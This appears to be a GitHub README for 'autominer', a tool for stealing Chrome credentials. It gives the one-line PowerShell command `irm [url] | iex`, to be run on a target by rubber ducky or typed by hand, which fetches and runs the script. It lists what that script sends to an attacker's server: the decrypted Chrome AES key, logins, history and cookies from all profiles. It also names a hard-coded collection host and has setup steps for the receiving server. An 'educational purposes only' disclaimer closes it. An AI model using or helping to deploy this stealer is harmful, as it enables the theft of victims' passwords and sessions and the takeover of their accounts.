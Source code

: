 # autominer
this is one of the projects that I worked on when I had time.

activate `irm [url to get script] | iex` on target with a rubber ducky, or by typing into a PowerShell window.

`get` is a PowerShell script.


run `upload.py` as a server to get data from the target.

also, change url in `get` to your server instead of `lucasz228.us.to`


`get` sends 
- decrypted chrome AES key
- chrome login data from all profiles
- chrome history from all profiles
- chrome cookies from all profiles

to the server.


## install:
```pip install flask
pip install pysqlite3
pip install requests
pip install pycryptodomex
pip install pypiwin32
```

## This is for educational purposes only.
## Im not responsible for any damages.
